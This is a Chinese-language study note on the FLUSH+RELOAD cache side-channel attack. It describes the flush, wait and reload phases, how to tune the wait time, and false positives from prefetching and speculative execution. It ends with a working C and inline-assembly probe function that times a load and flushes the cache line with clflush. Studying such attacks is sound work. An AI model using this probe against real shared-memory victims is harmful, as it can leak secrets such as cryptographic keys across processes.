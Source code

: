 <img src="./flush+reload.assets/image-20210802081957905.png" alt="image-20210802081957905" style="zoom:80%;" />

### FLUSH+RELOAD

FLUSH+RELOAD 是 PRIME+PROBE 的一个变种，依赖于进程间共享页。是 Gullasch 等人工作的变体，扩展了在多核和虚拟化环境中的适用性。

攻击分为三个阶段：

- 把要监视的缓存行从缓存中清除。
- 攻击者等待让受害者有时间访问内存。
- 攻击者重新加载内存，测量加载时间。

比较关键的是等待时间，如果等待时间较短则可能受害者访问与攻击者重新加载重叠，导致重载时间较长。另一方面，增加等待时间会降低攻击的粒度。

在不增加错误率的情况下提高攻击分辨率的方法一种方法是将频繁的内存访问作为目标，如循环体。攻击无法区分多个访问，但是丢失（未捕捉到）循环的可能性比较小。

一些处理器优化导致的推测性内存访问可能导致误报，这包括利用空间局部性和推测执行的数据预取，攻击者需要了解这些优化并制定过滤策略。

攻击代码如下：

```c
int probe(char *adrs) {
    volatile unsigned long time;
    asm __volatile__ (
        "mfence    \n"
        "lfence    \n"
        "rdtsc    \n"
        "lfence    \n"
        "movl %%eax, %%esi    \n"
        "movl (%1), %%eax    \n"
        "lfence    \n"
        "rdtsc    \n"
        "subl %%esi, %%eax    \n"
        "clflush 0(%1)    \n"
        : "=a" (time)
        : "c" (adrs)
        :
        "%esi", "%edx");
    return time < threshold;
}
```
